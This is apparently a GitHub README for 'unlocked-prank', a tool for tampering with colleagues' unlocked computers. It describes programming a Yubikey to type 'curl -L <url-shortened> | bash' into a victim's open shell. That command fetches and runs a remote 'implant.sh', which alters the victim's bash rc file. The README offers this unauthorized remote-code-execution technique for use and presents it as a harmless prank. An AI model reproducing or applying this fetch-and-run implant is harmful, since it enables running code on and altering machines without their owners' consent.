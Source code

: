 # unlocked-prank
A harmless prank for those poor buggers who leave their machines unlocked.

Tested on MacOSX and Linux running bash.  Only applicable to users who work in shells.

## Use

I wrote this as a quick drive-by implant.  

Those around me often leave their systems unlocked.  Messing around manually is time consuming and thus risky.

As I have a spare Yubikey I decided to utilise a slot with a static string.  This has a single stored command of:

` curl -L <url-shortened> | bash`

The URL shortener is used as the Yubikey has a limit of 64 characters in it's static password mode.  The shortened URL should point to

`https://raw.githubusercontent.com/auraltension/unlocked-prank/master/implant.sh`

Open a shell, plug in, press the button, remove, walk away.  The script will determine whether the system is Mac or
Linux, and implant a fun prank into their shell rc.  Presently only supports bash.

For your piece of mind I recommend checking my implant.sh, forking and using your own copy as you probably don't want to trust my script being executed on other peoples machines.
